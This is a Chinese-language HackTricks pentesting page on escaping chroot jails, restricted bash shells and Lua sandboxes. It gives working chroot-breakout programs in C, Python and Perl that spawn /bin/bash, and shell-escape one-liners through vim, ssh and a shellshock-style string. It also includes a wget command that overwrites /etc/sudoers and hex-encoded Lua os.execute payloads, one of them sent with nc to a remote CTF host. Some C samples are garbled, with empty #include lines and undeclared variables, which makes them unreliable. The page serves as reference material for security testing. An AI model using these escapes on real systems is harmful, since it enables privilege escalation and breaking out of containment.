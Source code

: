 # Escaping from Jails

<details>

<summary><strong>从零开始学习AWS黑客攻击直至成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## **GTFOBins**

**在** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **搜索是否可以执行任何具有"Shell"属性的二进制文件**

## Chroot逃逸

来自[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations)：Chroot机制**不旨在防御**有意篡改的**特权**（**root**）**用户**。在大多数系统上，chroot上下文不能正确堆叠，具有足够权限的chroot程序**可以执行第二次chroot以逃脱**。\
通常这意味着要逃脱，你需要在chroot内部成为root。

{% hint style="success" %}
**工具** [**chw00t**](https://github.com/earthquake/chw00t) 被创建来滥用以下场景并从`chroot`中逃脱。
{% endhint %}

### Root + CWD

{% hint style="warning" %}
如果你在chroot内部是**root**，你**可以逃脱**创建**另一个chroot**。这是因为在Linux中，两个chroots不能共存，所以如果你创建一个文件夹，然后在这个新文件夹上**创建一个新的chroot**，并且**你在它外面**，你现在将会**在新chroot的外面**，因此你将会在文件系统中。

这是因为通常chroot**不会**将你的工作目录移动到指定的目录，所以你可以创建一个chroot但在外面。
{% endhint %}

通常你不会在chroot监狱内找到`chroot`二进制文件，但你**可以编译、上传并执行**一个二进制文件：

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("chroot-dir", 0755); chroot("chroot-dir"); for(int i = 0; i < 1000; i++) { chdir(".."); } chroot("."); system("/bin/bash"); }

````
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
````

\`\`\`perl #!/usr/bin/perl mkdir "chroot-dir"; chroot "chroot-dir"; foreach my $i (0..1000) { chdir ".." } chroot "."; system("/bin/bash"); \`\`\`

</details>

### Root + 已保存的文件描述符

{% hint style="warning" %}
这种情况与前一个案例类似，但在这种情况下，**攻击者存储了一个指向当前目录的文件描述符**，然后**在新文件夹中创建chroot**。最后，由于他可以**访问**那个**FD**，并且该FD位于chroot**之外**，他访问它并且**逃逸**。
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("tmpdir", 0755); dir\_fd = open(".", O\_RDONLY); if(chroot("tmpdir")){ perror("chroot"); } fchdir(dir\_fd); close(dir\_fd); for(x = 0; x < 1000; x++) chdir(".."); chroot("."); }

````
</details>

### Root + Fork + UDS (Unix Domain Sockets)

<div data-gb-custom-block data-tag="hint" data-style='warning'>

FD 可以通过 Unix Domain Sockets 传递，因此：

* 创建子进程 (fork)
* 创建 UDS 以便父子进程通信
* 在子进程中运行 chroot 到不同文件夹
* 在父进程中创建一个 FD，指向子进程 chroot 外的文件夹
* 通过 UDS 将该 FD 传递给子进程
* 子进程 chdir 到该 FD，由于它位于其 chroot 外部，它将逃离监狱

</div>

### Root + Mount

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* 将根设备 (/) 挂载到 chroot 内部的目录中
* Chroot 进入该目录

这在 Linux 中是可能的

</div>

### Root + /proc

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* 将 procfs 挂载到 chroot 内部的目录中（如果尚未挂载）
* 寻找具有不同 root/cwd 条目的 pid，例如：/proc/1/root
* Chroot 进入该条目

</div>

### Root(?) + Fork

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* 创建 Fork（子进程）并 chroot 进入文件系统更深层的不同文件夹，并在其中 CD
* 从父进程中，将子进程所在的文件夹移动到子进程 chroot 之前的文件夹
* 这个子进程将发现自己在 chroot 外部

</div>

### ptrace

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* 过去用户可以从其自身的进程中调试自己的进程... 但这默认不再可能
* 无论如何，如果可能，你可以 ptrace 进入一个进程并在其中执行 shellcode（[参见此示例](linux-capabilities.md#cap_sys_ptrace)）。

</div>

## Bash 监狱

### 枚举

获取关于监狱的信息：
```bash
echo $SHELL
echo $PATH
env
export
pwd
````

**修改 PATH**

检查是否可以修改 PATH 环境变量

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

**使用 vim**

```bash
:set shell=/bin/sh
:shell
```

**创建脚本**

检查是否可以创建一个内容为 _/bin/bash_ 的可执行文件

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

**通过 SSH 获取 bash**

如果您通过 ssh 访问，可以使用这个技巧来执行一个 bash shell：

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

**声明**

```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```

**Wget**

你可以覆盖例如sudoers文件

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

**其他技巧**

以下页面包含了关于逃离受限Linux shell的技巧：

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**以下页面也可能有趣：**

#### Python 监狱

关于逃离Python监狱的技巧，请参阅以下页面：

#### Lua 监狱

在此页面中，你可以找到在Lua中可以访问的全局函数：[https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**使用命令执行的Eval：**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

一些**不使用点调用库函数**的技巧：

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

列举库的函数：

```bash
for k,v in pairs(string) do print(k,v) end
```

请注意，每次在**不同的lua环境中执行前面的单行命令时，函数的顺序都会改变**。因此，如果您需要执行一个特定的函数，您可以通过加载不同的lua环境并调用库的第一个函数来执行暴力破解攻击：

```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**获取交互式lua shell**：如果你处于一个受限的lua shell中，你可以通过以下方式调用来获取一个新的lua shell（希望是无限制的）：

```bash
debug.debug()
```

#### 参考资料

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (幻灯片: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

</details>
